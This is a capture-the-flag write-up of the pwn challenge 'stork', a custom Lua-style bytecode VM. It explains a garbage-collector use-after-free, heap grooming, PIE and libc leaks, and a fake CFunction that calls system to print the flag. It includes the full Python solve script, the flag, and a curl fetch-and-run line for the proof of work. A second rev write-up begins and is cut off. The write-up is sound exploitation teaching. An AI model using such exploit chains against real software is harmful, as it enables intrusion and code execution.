

import Callout from '@/components/Callout.astro'
import Icon from '@/components/Icon.astro'

## pwn - stork (10 solves)

stork is a custom lua 5.5 style bytecode vm written in c++. the loader wants the usual lua header magic (the 0x1b byte, the three bytes for Lua, then 0x55 for the version), and every runtime value is a `std::shared_ptr` to a LuaValue subclass. the interpreter loop is
`LuaState::run_vm`. the binary is not stripped and it is PIE, which is a gift, because it means the symbol names in the decomp are real and i did not have to guess at any of this. the interpreter is not too interesting, what is interesting is the memory management. stork ships three
allocators and two background threads

```text
SystemAllocator   a thin wrapper over malloc and free
GCAllocator       conservative collector, own thread via run_gc_thread
BrokerAllocator   arena allocator, own thread via run
```

the `GCAllocator` runs `GCAllocator::collect` on a timer from its own thread, and the `BrokerAllocator` services allocation and deallocation requests from a queue on a different
thread. so at any moment there are three threads that can touch the heap, and the free that matters in this challenge happens on a thread you do not control and cannot see from lua

### environment

```text
Linux stork-64d948664-vw74j 7.0.9 #1 SMP PREEMPT Fri May 22 03:24:17 UTC 2026 x86_64 GNU/Linux
```

the docker image is ubuntu 26.04 with glibc 2.43, pinned by digest in the Dockerfile and jailed behind kctf and nsjail. before you can talk to it you clear a kctf proof of work, the flag itself is placed by kctf_nsjail_flag_at /flag, which is why a
plain cat of /flag works once you get code exec. the most important env detail is that the remote does not run the binary directly. the runner wraps it

```python
subprocess.run(['stdbuf', '-oL', '-i0', './stork', tmp_path])
```

that stdbuf wrapper shifts the heap layout compared to a bare ./stork, so every offset i calibrated under a naked binary was wrong on the remote, which made me extremely depresdsed. anything you tune locally has to be tuned under the same execution shape or the numbers do not transfer, for reference, under gdb the arena and the libc and the binary all land in a stable place
around 0x7ffff0000000, which is lovely for reversing and completely unlike the randomized remote. the tracing i used was mostly two breakpoint scripts, one on the broker alloc path and one on the collector, printing the return pointer and size on every alloc and the freed pointer on every dealloc

```gdb
set pagination off
break *(_ZN15BrokerAllocator5allocEm+0xc7)
commands
  silent
  continue
end
break _ZN15BrokerAllocator7deallocEPvm
commands
  silent
  continue
end
run
```

### object layout

everything derives from LuaValue, which is a vtable plus a type byte plus a value word plus a little inline storage. the type tags i cared about are 0x03 for a boxed integer, 0x16 for a
CFunction, and 0x30 for a string. the layouts were

```text
LuaValue (base)
  +0x00  vtable
  +0x08  type byte              0x03 NumInt, 0x16 CFunction, 0x30 string
  +0x10  value word
  +0x18  inline data

LuaValueTable
  +0x18  storage                pointer to a LuaTableStorage

LuaTableStorage
  +0x00  vtable
  +0x08  bucket_count           power of two
  +0x10  live_count
  +0x18  filled
  +0x20  bucket[0].key          16 bytes per bucket,. key then value
  +0x28  bucket[0].value
  ...

LuaValueString (short string)
  +0x18  inline string bytes    

LuaValueCFunction
  +0x00  vtable
```

the table lookup is the primitive i eventually abuse, so it is worth reading the real thing, here is `LuaValueTable::get_value`, lightly cleaned from hex-rays 

```text
get_value(out, table, key)
{
  storage = *(table + 0x18)
  if ( *(storage + 0x10) == 0 )          
    return empty(out)

  n     = *(storage + 0x08)             
  h     = key->hash()                    
  mask  = n - 1
  slot  = mask & h                       
  base  = storage + 0x20                 

  while ( n-- )
  {
    kptr = *(base + 16 * (mask & slot))
    if ( kptr == 0 )                     
      return empty(out)
    if ( kptr != 1 )                     
      if ( kptr->equals(key) )           
        break
    slot++
  }

  value = *(base + 16 * (mask & slot) + 8)
  return wrap(out, value)                
}
```

two things to notice, first, the initial bucket is chosen by `key->hash()` masked with `bucket_count` minus one, and probing from there is linear with
wraparound and second, the key hash is the value types own idea of a hash and for a boxed integer that hash is just the integer

```text
LuaValueNumInt::hash(this) { return *(this + 0x10) }   
```

so if i control the storage (its bucket_count, its keys, its values) and i control the lookup key, then `get_value` walks a table i built and returns a value pointer i chose which is the entire idea behind the exploit. the only problem is getting a `LuaTableStorage` under my control, and that is what the bug is for

### the bug

`fn_ipairs` hands lua an iterator. the iterator is a CFunction whose `std::function` target captures the table being iterated as a `shared_ptr` and the capture is a plain heap object

```text
fn_ipairs(state, args)
{
  tbl = dynamic_cast_to_LuaValueTable(args[0])
  if ( tbl )
    refcount_inc(tbl)                    

  cap = operator new(0x10)               
  *(cap + 0x00) = tbl                    
  *(cap + 0x08) = tbl_control_block      
  make_shared_LuaValueCFunction(state, std::function{ cap })
}
```

the ownership of the table now lives inside that 16 byte block on the system heap reachable only through the `std::function` target and the collector is conservative. it scans regions word by word and treats any word that falls inside the broker arena as a live reference. here
is `GCAllocator::scan_range`

```text
scan_range(addr, len, arena_lo, arena_hi, seen, worklist)
{
  off = 0
  while ( off + 8 <= len )               
  {
    w = *(addr + off)
    off += 8
    if ( w < arena_lo || w >= arena_hi ) 
      continue
    if ( contains(seen, w) )
      continue
    insert(seen, w)
    push(worklist, w)                    
  }
}
```
`GCAllocator::collect` that calls the above

```text
collect(this)
{
  if ( !broker->get_arena_bounds(&lo, &hi) )
    return
  scan_range(vm_stack_base, vm_stack_len, lo, hi, seen, worklist)
  for region in get_gc_root_regions():
    scan_range(region.ptr, region.len, lo, hi, seen, worklist)
  while ( worklist not empty ):
    obj = pop(worklist)
    scan_range(obj, malloc_usable_size(obj), lo, hi, seen, worklist)
  for chunk in tracked_broker_allocs:
    if ( chunk not in seen ):
      broker->dealloc(chunk)
}
```

now put the two facts together. collect starts from the vm value stack, from the reported root regions, and from object bodies it has already decided are reachable. from each of those it only follows words that point into the broker arena. the table capture is a pointer into
the system heap, not the arena, so when `scan_range` walks the iterator object it sees that word, checks it against the arena bounds, and skips it. it never goes down into the 16 byte capture, so it never sees the owning reference to the table and the table look dead. the same rule works the other way for stack words. if a bare copy of
the table pointer is still lying around in a native frame or an operand slot, that word is inside the arena, so `scan_range` marks the table live and my free never happens so this asymmetry is the entire difficulty of the challenge for me and it is why one of my later exploit builds scrubs leftover words before forcing collection

therefore the plan is to iterate a table with ipairs, keep the iterator, drop every direct reference to the table, scrub the stragglers, then force gc. the broker thread reclaims the table object and its storage. the iterator is still perfectly callable, and when lua calls it, the closure
dereferences its stale captured pointer and calls `get_value` on freed memory

```text
ipairs_iterator::invoke(out, state, cap)
{
  tbl = *(cap + 0x00)                    
  idx = current_index + 1
  key = make_NumInt(idx)
  LuaValueTable::get_value(&out, tbl, &key)   
}
```

<Callout type='warn'>
the key realisation, and the thing that took me longest to accept, is that this is not a
math bug beecause therre is no off by one, no bad bounds check, no integer overflow but a lifetime
and visibility argument where the collector is correct about everything it can see but it just cannot
see through a `std::function` target on the system heap, and it is a little too eager about
words that happen to look like arena pointers so we just control what the collector sees
</Callout>

### the reshape

once the table object and its storage are both freed, i replace them with two controlled chunks, both built with `string.pack` from lua and the sizes line up because the table object is a 0x20 allocation and a short string reuses the same class of chunk, and the storage is its own
chunk that a larger packed string can land on
here is the thought process behind both grooming attempts 

```text
reshape 1
freed 0x20 table object -> 8-byte LuaValueString
the string is short enough to fit inline, so its content lands at +0x18 which is exactly where LuaValueTable keeps its storage pointer and the dead iterator reads that slot and follows it into our fake storage
 
  string.pack('<L', fake_storage_addr)
 
reshape 2 
freed storage chunk -> fake LuaTableStorage (fits six qwords)
  +0x00  vtable        pie + PIE_NUMINT_VPTR  
  +0x08  bucket_count  1                      
  +0x10  live_count    1                       
  +0x18  filled        1
  +0x20  key           qkey                    
  +0x28  value         target_ptr              
 
  string.pack('<LLLLLL', pie+PIE_NUMINT_VPTR, 1, 1, 1, qkey, target_ptr)
```

here recall get_value, with bucket_count 1 the mask is 0, the single bucket is at storage + 0x20, the stored key sits at storage + 0x20 and the value at storage + 0x28. so i pick qkey so that my ookup integer compares equal, and target_ptr is whatever address i want the vm to treat as a
live LuaValue. call the stale iterator, `get_value` walks my fake storage, and i get target_ptr back wrapped as a value which is an arbitrary read of one machine word, over and over, at any address i can express as an arena relative offset

in the actual solver this was all built as bytecode assembled in python. the constant pool for the final `build_exploit` is where the shape is easiest to see and every one of these constants is doing a job in the chain
```python
consts = [
    k_str('<LLLLLL'),                 # fake LuaTableStorage, six qwords
    k_str('<L'),                      # reshape the freed table into an 8 byte string
    k_int(PIE_FN_PRINT + 1),          # what the print CFunction pointer leaks as
    k_int(PIE_FREE_GOT - 0x10),       # free@GOT minus its header for the libc read
    k_int(PIE_CFUNC_VPTR),            # vtable for the fake CFunction
    k_int(0x16),                      # type tag CFunction
    k_int(0x002A662F20746163),        # cat /f* then a nul LE
    k_int(1),                         # nonzero std::function manager slot
    k_int(PIE_SYSTEM_INVOKER_GADGET), # mov rdi, rsi then call [rax+0x18]
    k_int(LIBC2604_FREE + 1),         # subtract to recover libc base
    k_int(system_target_off),         # do_system + 2 dodge push misalign
]
```

```python
PIE_FN_PRINT              = 0x24A00
PIE_FREE_GOT              = 0x3E210
PIE_CFUNC_VPTR            = 0x3D998
PIE_NUMINT_VPTR           = 0x3D2E0
PIE_SYSTEM_INVOKER_GADGET = 0x1287E
LIBC2604_FREE             = 0xB5660
LIBC2604_SYSTEM           = 0x5C560
```

### the chain

#### 1. fin arena base

the fake storage address i pack into the reshape is arena relative, so before i can build any fake storage i have to know where the 64 MiB broker arena lives and the arena is 64 MiB aligned

```text
get_arena_bounds(this, out_lo, out_hi)
{
  live = *(this + 0x118)                  
  if ( !live ) 
    return false
  arena = *(live & 0xFFFFFFFFFC000000)    
  *out_lo = arena + 2128
  *out_hi = *(arena + 8)
  return true
}
```

the mask `0xFFFFFFFFFC000000` clears 26 bits, and 2 to the 26 is 0x4000000, which is 64 mb so i scan candidate bases at 64 mb stride and i build one table whose keys are candidate arena bases, then use an ipairs lookup against a pointer i already know, a child proto pointer at a
known offset so when the lookup hits, the returned value tells me which candidate the proto actually lives under, and from there i compute the arena index. in bytecode this is a loop that sets one key per candidate then runs the iterator once

```python
code.append(iABC(OP_NEWTABLE, 0, 0, 0))
loadk(1, 5)   
loadk(2, 6)   
loadk(3, 7)  
loadk(4, 8)   
loadk(5, 9)   
loop_pc = len(code)
code.append(iABC(OP_SETTABLE, 0, 2, 1))
add(2, 2, 3)
add(4, 4, 5)
code.append(iABC(OP_LTI, 4, 128, 0, 0))
code.append(iJ(OP_JMP, -6))
```

the remote is randomized so this scan is the part that fails most often but the window that worked was

```text
STORK_HEAP_START_I = 14144
STORK_HEAP_COUNT   = 8384
STORK_PROTO_OFF    = 0x14a0
```

#### 2. leak PIE

with the arena base known i build my first fake storage and point its value at the live print CFunction plus a fixed offset so reading it back leaks PIE plus PIE_FN_PRINT plus 1, and i subtract to get the base, and the reason i target print specifically is that it is a real CFunction
that is always registered and always live

```text
fn_print(state, args)
{
  for each arg:
    lua_tostring_val(&tmp, arg)
    ostream_insert(cout, tmp)
  ostream_insert(cout, newline)
}
```

once i have PIE i can name every gadget and vtable in the binary

#### 3. leak libc

for libc i want to read `free@GOT` hence i build a fake storage whose value is a fake string object positioned so that reading it returns the bytes at `free@GOT`, then subtract `LIBC2604_FREE` plus 1 to get the libc base but a single bucket is not enough here, because of how
the read is staged so this storage has two buckets and i rely on the collision behaviour of `get_value`

##### 3.1 why can two keys land on one slot?
bucket_count is 2, so the mask is 1. the initial slot is key & 1 and for a boxed integer the hash is the integer itself, so if i choose both stored keys to be odd, both hash to slot 1. the first lookup finds its key sitting in slot 1. the second lookup starts at slot 1 as well, does not match the occupant, and the linear probe wraps
it to slot 0, where the second key and value live so we have two lookups, two different values, one tiny storage, and no need to comp a second address. this is a pretty cool way of reading two chunks in one reshape


#### 4. fake CFunction and command execution

pack a string that is a whole fake `LuaValueCFunction`, then use one more fake storage to hand the vm a pointer to that strings inline bytes, typed as a CFunction so when lua does a normal CALL on it, the interpreter dispatches through `LuaValueCFunction::call`, which is the primitive i need

```text
LuaValueCFunction::call(ret, self, args, argv)
{
  if ( *(self + 0x20) == 0 )              
    throw bad_function_call
  invoker = *(self + 0x28)                
  invoker(ret, self + 0x10, args, argv)   
}
```

lel, the two fields the dispatch reads are +0x20 (must be nonzero) and +0x28 (the thing it calls), and it passes self + 0x10 as the functor so i point +0x28 at a tiny gadget in the binary

```gdb
PIE + 0x1287E:
    mov rdi, rsi
    call qword [rax+0x18]
```

when the dispatch calls it, `rsi` holds `self + 0x10` and `rax` holds self, so the gadget moves the address of my command bytes into rdi and then calls the pointer stored at self + 0x18 which is practically the entire reason behind our fake layout

```text
fake LuaValueCFunction
  +0x00  pie + PIE_CFUNC_VPTR    CALL dispatch reaches call !!
  +0x08  0x16                    
  +0x10  cat /f* then a nul      little endian 0x002A662F20746163 becomes rdi!!!!
  +0x18  do_system + 2           
  +0x20  1                       
  +0x28  pie + 0x1287E           
```

the one detail that cost a bit of my sanity and a fuck ton of crashes was that the call target is do_system + 2, not the public system entry so entering system at its front runs a push that leaves the stack misaligned by the time it reaches the deeper call, and it dies therefore skipping those two bytes lands with the stack
aligned and the command runs. i read cat /f* rather than a fixed path because kctf drops the flag at /flag 

### one shot and the flag

the whole thing is a single payload driven by environment variables. the run that produced the
flag was:

```bash
s_h_s=14144 \
s_h_c=8384 \
s_h_a=0 \
s_sys=0x5c0b2 \
s_prt=0x14a0 \
s_p_qk=0xa5cb0 \
s_p_st=0xa5c58 \
s_l_qk=0xa61c0 \
s_l_st=0xa6138 \
s_l_rd=0xa6200 \
s_f_cf=0xa65b8 \
s_c_qk=0xa5e10 \
s_c_st=0xa6638 \
s_r_to=12 \
s_p_w=16 \
s_p_to=180 \
python3 solve.py
```

```text
bbb{meep_morp_im_a_stork_and_here_is_a_fork:mkyPo0uRNtX1N2FdtndS_ZQ_5m7y1YOVsw5NT-s3ijHY3KCAInF14vESv3Cpv-ZYESCJULu-Jbv4HcqcLotXt36J6qlCMaRiJkU}
```

### the rabbit hole autopsy, as always

the elegant chain above really just hides the amount of shit the solver had to deal with, like growing a full menu of probes,
each one a small lua program answering a single question about the collector and the heap, the exploit itself went through five major remakes before it worked. starting from naive attempts, i then later tried adding a safe pool idea to keep gromming from stepping on itself, then i tried splitting the
offsets apart so i could calibrate each fake storage independently instead of one global factor, then i finally had a version that faced the scanner honestly and it did so by scrubbing the c stack and the ipairs operand slots before forcing gc, because leftover native stack words holding the table pointer were passing the arena bounds
check and keeping the table alive, so the free never happened and the whole chain no opped.

### closing notes and lessons learned

- the exploit is very heap layout sensitive, local work has to run inside the ubuntu 26.04 chroot
  from the Dockerfile, not against the host glibc, or none of the libc offsets mean anything
- under gdb the layout is stable around 0x7ffff0000000, the remote is randomized, so the
  stork heap start scan window is the offset i rotate between attempts. the flag did not come
  on the first try, it came on a window that happened to line up
- the stdbuf wrapper in the runner is not cosmetic which i learned too late, calibrate under it
- the post exploitation crash is harmless because the child runs cat /f* and writes the flag before
  the parent falls over

and the most valuable leson, when pwning a collector running on its own thread, do not look for arithmetic mistakes but look for the one owning a pointer it structurally cannot follow and make sure nothing else accidentally keeps the object alive, the rest is just grooming

### solve

```python
#!/usr/bin/env python3
import base64, os, re, socket, ssl, struct, subprocess, sys, time
from pathlib import Path

TOKEN = ("noxd)

OP_MOVE=0x00;OP_LOADI=0x01;OP_LOADF=0x02;OP_LOADK=0x03;OP_LOADKX=0x04;OP_LOADFALSE=0x05
OP_LFALSESKIP=0x06;OP_LOADTRUE=0x07;OP_LOADNIL=0x08;OP_GETUPVAL=0x09;OP_SETUPVAL=0x0A
OP_GETTABUP=0x0B;OP_GETTABLE=0x0C;OP_GETI=0x0D;OP_GETFIELD=0x0E;OP_SETTABUP=0x0F
OP_SETTABLE=0x10;OP_SETI=0x11;OP_SETFIELD=0x12;OP_NEWTABLE=0x13;OP_SELF=0x14
OP_ADDI=0x15;OP_ADDK=0x16;OP_SUBK=0x17;OP_MULK=0x18;OP_MODK=0x19;OP_POWK=0x1A
OP_DIVK=0x1B;OP_IDIVK=0x1C;OP_BANDK=0x1D;OP_BORK=0x1E;OP_BXORK=0x1F;OP_SHRI=0x20
OP_SHLI=0x21;OP_ADD=0x22;OP_SUB=0x23;OP_MUL=0x24;OP_MOD=0x25;OP_POW=0x26;OP_DIV=0x27
OP_IDIV=0x28;OP_BAND=0x29;OP_BOR=0x2A;OP_BXOR=0x2B;OP_SHL=0x2C;OP_SHR=0x2D
OP_MMBIN=0x2E;OP_MMBINI=0x2F;OP_MMBINK=0x30;OP_UNM=0x31;OP_BNOT=0x32;OP_NOT=0x33
OP_LEN=0x34;OP_CONCAT=0x35;OP_CLOSE=0x36;OP_TBC=0x37;OP_JMP=0x38;OP_EQ=0x39
OP_LT=0x3A;OP_LE=0x3B;OP_EQK=0x3C;OP_EQI=0x3D;OP_LTI=0x3E;OP_LEI=0x3F;OP_GTI=0x40
OP_GEI=0x41;OP_TEST=0x42;OP_TESTSET=0x43;OP_CALL=0x44;OP_TAILCALL=0x45;OP_RETURN=0x46
OP_RETURN0=0x47;OP_RETURN1=0x48;OP_FORLOOP=0x49;OP_FORPREP=0x4A;OP_TFORPREP=0x4B
OP_TFORCALL=0x4C;OP_TFORLOOP=0x4D;OP_SETLIST=0x4E;OP_CLOSURE=0x4F;OP_VARARG=0x50
OP_VARARGPREP=0x51;OP_EXTRAARG=0x52


def uvar(n):
    parts = [n & 0x7F]
    n >>= 7
    while n:
        parts.append(0x80 | (n & 0x7F))
        n >>= 7
    return bytes(reversed(parts))

def svar(n): return uvar((n << 1) if n >= 0 else ((-n << 1) - 1))
def lstr(s):
    if isinstance(s, str): s = s.encode()
    return uvar(len(s) + 1) + s + b"\0"
def lsref(i=0): return uvar(0) + uvar(i)
def hdr():
    return (b"\x1bLua" + bytes([0x55, 0]) + b"\x19\x93\r\n\x1a\n"
            + bytes([4]) + struct.pack("<i", -0x5678)
            + bytes([4]) + struct.pack("<I", 0x12345678)
            + bytes([8]) + struct.pack("<q", -0x5678)
            + bytes([8]) + struct.pack("<d", -370.5))

def iABC(op,a=0,b=0,c=0,k=0): return op|(a<<7)|(k<<15)|(b<<16)|(c<<24)
def iABx(op,a=0,bx=0): return op|(a<<7)|(bx<<15)
def iJ(op,sj=0): return op|((sj+0xFFFFFF)<<7)

def k_nil(): return b"\x00"
def k_int(v): return b"\x03" + svar(v)
def k_str(v): return b"\x04" + lstr(v)

HDR_LEN = len(hdr())

def proto(code, consts=None, upvalues=None, nested=None, maxstack=8,
          numparams=0, is_vararg=1, line_defined=0, last_line_defined=0):
    consts = consts or []
    upvalues = upvalues if upvalues is not None else [bytes([1, 0, 0])]
    nested = nested or []
    out = bytearray()
    out += uvar(line_defined); out += uvar(last_line_defined)
    out += bytes([numparams, is_vararg, maxstack])
    out += uvar(len(code))
    while (HDR_LEN + 1 + len(out)) % 4: out.append(0)
    for ins in code: out += struct.pack("<I", ins)
    out += uvar(len(consts))
    for c in consts: out += c
    out += uvar(len(upvalues))
    for u in upvalues: out += u
    out += uvar(len(nested))
    for p in nested: out += p
    out += lsref(0)
    for _ in range(4): out += uvar(0)
    return bytes(out)

def chunk(pb, nup=1): return hdr() + bytes([nup]) + pb
def b64pay(raw): return base64.b64encode(raw) + b"\n\n"


SCAN_CHUNK = 64

EXP_REMOTE_PROTO_OFF      = 0x1440
EXP_PIE_QKEY_OFF          = 0xA5C00
EXP_PIE_STORAGE_DATA_OFF  = 0xA5BA8
EXP_LIBC_PTR_QKEY_OFF     = 0xA60D0
EXP_LIBC_PTR_STORAGE_DATA_OFF = 0xA6048
EXP_LIBC_READ_QKEY_OFF    = 0xA6110
EXP_LIBC_READ_STORAGE_DATA_OFF = 0xA6448
EXP_FAKE_CFUNC_DATA_OFF   = 0xA64C8
EXP_CALL_QKEY_OFF         = 0xA63D0
EXP_CALL_STORAGE_DATA_OFF = 0xA6548

PIE_FN_PRINT              = 0x24A00
PIE_FREE_GOT              = 0x3E210
PIE_CFUNC_VPTR            = 0x3D998
PIE_NUMINT_VPTR           = 0x3D2E0
PIE_SYSTEM_INVOKER_GADGET = 0x1287E
LIBC2604_FREE             = 0xB5660
LIBC2604_SYSTEM           = 0x5C560


def build_exploit():
    hsi     = int(os.environ.get("s_h_s",  "8000"), 0)
    hc      = int(os.environ.get("s_h_c",  "8384"), 0)
    po      = int(os.environ.get("s_prt",  str(EXP_REMOTE_PROTO_OFF)), 0)
    adj     = int(os.environ.get("s_h_a",  "-0x2f0"), 0)
    pqo     = int(os.environ.get("s_p_qk", str(EXP_PIE_QKEY_OFF)), 0)
    pso     = int(os.environ.get("s_p_st", str(EXP_PIE_STORAGE_DATA_OFF)), 0)
    lpqo    = int(os.environ.get("s_l_qk", str(EXP_LIBC_PTR_QKEY_OFF)), 0)
    lpso    = int(os.environ.get("s_l_st", str(EXP_LIBC_PTR_STORAGE_DATA_OFF)), 0)
    lrqo    = int(os.environ.get("s_l_rd", str(EXP_LIBC_READ_QKEY_OFF)), 0)
    lrso    = EXP_LIBC_READ_STORAGE_DATA_OFF
    cdo     = int(os.environ.get("s_f_cf", str(EXP_FAKE_CFUNC_DATA_OFF)), 0)
    cqo     = int(os.environ.get("s_c_qk", str(EXP_CALL_QKEY_OFF)), 0)
    cso     = int(os.environ.get("s_c_st", str(EXP_CALL_STORAGE_DATA_OFF)), 0)
    sys_off = int(os.environ.get("s_sys",  str(LIBC2604_SYSTEM)), 0)

    hbc = 0x7F0000000000
    hs  = 0x4000000
    def hoff(off): return off + adj
    scan_start = hbc + (hsi << 26) + po + 1

    k = [
        k_str("collectgarbage"), k_str("ipairs"), k_str("string"), k_str("pack"),
        k_str("print"), k_str("H"),
        k_int(scan_start), k_int(hs), k_int(hc), k_int(-1), k_int(1), k_int(0),
        k_str("<LLLLLL"), k_str("<L"), k_str("<LLLLL"),
        k_int(hoff(pqo)), k_int(hoff(pso)), k_int(PIE_FN_PRINT + 1),
        k_int(PIE_FREE_GOT - 0x10),
        k_int(hoff(lpqo)), k_int(hoff(lpso)),
        k_int(hoff(lrqo)), k_int(hoff(lrso)),
        k_int(PIE_CFUNC_VPTR), k_int(0x16), k_int(0x002A662F20746163), k_int(1),
        k_int(PIE_SYSTEM_INVOKER_GADGET),
        k_int(hoff(cdo)), k_int(hoff(cqo)), k_int(hoff(cso)),
        k_int(LIBC2604_FREE + 1), k_int(sys_off), k_int(hbc), k_int(po + 1),
        k_str("<LLLLLLLL"), k_int(2), k_str("<LLLLLLLLL"),
        k_int(0x30), k_int(PIE_NUMINT_VPTR), k_int(3), k_int(0),
    ]

    code = []
    lk   = lambda r, ki: code.append(iABx(OP_LOADK, r, ki))
    gg   = lambda r, ki: code.append(iABC(OP_GETTABUP, r, 0, ki))
    ca   = lambda r, n, v: code.append(iABC(OP_CALL, r, n+1, v+1))
    cv   = lambda r, n=0: code.append(iABC(OP_CALL, r, n+1, 1))
    add  = lambda d, a, b: code.append(iABC(OP_ADD, d, a, b))
    sub  = lambda d, a, b: code.append(iABC(OP_SUB, d, a, b))
    mul  = lambda d, a, b: code.append(iABC(OP_MUL, d, a, b))
    idiv = lambda d, a, b: code.append(iABC(OP_IDIV, d, a, b))
    mv   = lambda d, s: code.append(iABC(OP_MOVE, d, s))
    n1   = lambda r: code.append(iABC(OP_LOADNIL, r, 0, 0))

    gg(90, 0); gg(91, 1); gg(92, 2)
    code.append(iABC(OP_GETFIELD, 92, 92, 3))
    gg(93, 4)

    code.append(iABC(OP_NEWTABLE, 0, 0, 0))
    lk(1, 5); lk(2, 6); lk(3, 7); lk(4, 8); lk(5, 9)
    lp = len(code)
    code.append(iABC(OP_SETTABLE, 0, 2, 1))
    add(2, 2, 3); add(4, 4, 5)
    code.append(iABC(OP_LTI, 4, 128, 0, 0))
    code.append(iJ(OP_JMP, -6))

    code.append(iABx(OP_CLOSURE, 6, 0))
    mv(7, 91); mv(8, 0); ca(7, 1, 3); n1(8); mv(9, 6); ca(7, 2, 2)

    lk(10, 34); sub(10, 7, 10); lk(11, 33); sub(10, 10, 11); lk(11, 7); idiv(88, 10, 11)
    for r in range(0, 12): n1(r)

    def heap_addr(dst, ok):
        lk(dst, 7); mul(dst, 88, dst); lk(84, 33); add(dst, dst, 84); lk(84, ok); add(dst, dst, 84)

    def mk_stale(ir, tr):
        code.append(iABC(OP_NEWTABLE, tr, 0, 0))
        mv(70, 90); cv(70); mv(70, 90); cv(70)
        mv(ir, 91); mv(ir+1, tr); ca(ir, 1, 3)
        n1(tr); n1(ir+1); n1(ir+2)
        mv(70, 90); cv(70); mv(70, 90); cv(70)

    def do_stale(so, oo, ir, qr, sr, vr, xr, rr):
        mv(so, 92); lk(so+1, 12); lk(so+2, 11); lk(so+3, 10); lk(so+4, 10)
        lk(so+5, 11); mv(so+6, qr); mv(so+7, vr); ca(so, 7, 1)
        mv(oo, 92); lk(oo+1, 13); mv(oo+2, sr); ca(oo, 2, 1)
        mv(rr, ir); n1(rr+1)
        if xr is None: n1(rr+2)
        else: mv(rr+2, xr)
        ca(rr, 2, 2)

    def clr(a, b):
        for r in range(a, b+1): n1(r)

    mk_stale(37, 34)
    heap_addr(10, 15); heap_addr(11, 16)
    do_stale(20, 28, 37, 10, 11, 10, 93, 40)
    lk(12, 17); sub(12, 40, 12)
    clr(10, 11); clr(20, 39)

    mk_stale(37, 34)
    lk(13, 18); add(13, 12, 13)
    heap_addr(14, 19); heap_addr(15, 20); heap_addr(16, 21)
    mv(20, 92); lk(21, 35); lk(22, 11); lk(23, 36); lk(24, 36); lk(25, 36)
    mv(26, 16); mv(27, 16); mv(28, 14); mv(29, 13); ca(20, 9, 1)
    mv(30, 92); lk(31, 13); mv(32, 15); ca(30, 2, 1)
    mv(42, 37); n1(43); n1(44); ca(42, 2, 2)
    mv(44, 37); n1(45); mv(46, 43); ca(44, 2, 2)
    lk(18, 31); sub(18, 44, 18); lk(19, 32); add(19, 18, 19)
    clr(13, 16); clr(20, 39)

    lk(50, 23); add(50, 12, 50); lk(51, 27); add(51, 12, 51)
    mv(52, 92); lk(53, 12); mv(54, 50); lk(55, 24); lk(56, 25)
    mv(57, 19); lk(58, 26); mv(59, 51); ca(52, 7, 1)

    mk_stale(37, 34)
    heap_addr(60, 28)
    heap_addr(61, 29)
    mv(20, 92); lk(21, 12); lk(22, 11); lk(23, 10); lk(24, 10); lk(25, 11)
    mv(26, 61); mv(27, 60); ca(20, 7, 1)

    heap_addr(62, 30)
    mv(31, 92); lk(32, 13); mv(33, 62); ca(31, 2, 1)

    mv(64, 37); n1(65); n1(66); ca(64, 2, 2)
    mv(66, 65); cv(66, 0)
    code.append(iABC(OP_RETURN0))
    return chunk(proto(code, k, nested=[b""], maxstack=96))


def run_remote(raw, host="stork.ctfwithbirds.com", port=1337):
    data = b""
    with socket.create_connection((host, port), timeout=10) as sock:
        with ssl.create_default_context().wrap_socket(sock, server_hostname=host) as s:
            s.settimeout(90)
            try: data += s.recv(4096)
            except TimeoutError: pass
            if b"token" in data.lower():
                s.sendall(TOKEN.encode() + b"\n")
                try: data += s.recv(4096)
                except TimeoutError: pass
            m = re.search(rb"a2id\.v2\.\d+\.[0-9a-f]{32}", data)
            if m:
                chal = m.group(0).decode()
                py = Path(".venv/bin/python")
                py_cmd = str(py) if py.exists() else sys.executable
                workers = os.environ.get("s_p_w", str(min(24, max(1, os.cpu_count() or 1))))
                timeout = float(os.environ.get("s_p_to", "90"))
                solver = Path("/tmp/kctf_pow.py")
                if solver.exists():
                    cmd = [py_cmd, str(solver), "solve", "-j", workers, chal]
                else:
                    cmd = ["zsh", "-lc",
                           f"{py_cmd} <(curl -sSL https://pow.ctfwithbirds.com/pow) solve -j {workers} {chal}"]
                sol = subprocess.check_output(cmd, text=True, timeout=timeout).strip()
                s.sendall(sol.encode() + b"\n")
                try: data += s.recv(4096)
                except TimeoutError: pass
            s.sendall(b64pay(raw))
            s.settimeout(float(os.environ.get("s_r_to", "8")))
            while True:
                try: part = s.recv(4096)
                except TimeoutError: break
                if not part: break
                data += part
    return data


if __name__ == "__main__":
    sys.stdout.buffer.write(run_remote(build_exploit()))
```

## rev - stick drift
 
### what the target is
 
the handout is a single stripped pie called birds_of_defense, an sdl tower-defense game with birds as towers and bugs as enemies
 
```text
ELF 64-bit LSB pie executable, x86-64, dynamically linked, stripped
BuildID: dafb397fd85953fabeb8d88594ce1034bdb82e82
  .text      0x4fc0  to 0x26faa
  .rodata    0x27000 to 0x288fe
  .data      0x2d000 to 0x2d060
  .bss       0x2d060 to 0x30aa8
  init_array: 0xca10, 0x90d0, 0x9b90, 0xa690, 0xb2f0, 0xbf00
```
 
firstly grep the binary for the flag. there is no literal bbb, no bbb open brace, no flag, no ctf anywhere in the strings or the raw bytes. there are also no crypto library symbols at all, no aes, no gcm, no evp, no openssl. i took that second fact as proof that whatever encodes the flag has to be hand rolled inside the game which cost me an hour
 
the runtime environment is just the local game, there is no docker or nsjail in the handout and the final solve never touches a remote, the only environment detail that mattered was the anti debug and only while i was doing dynamic analysis
 
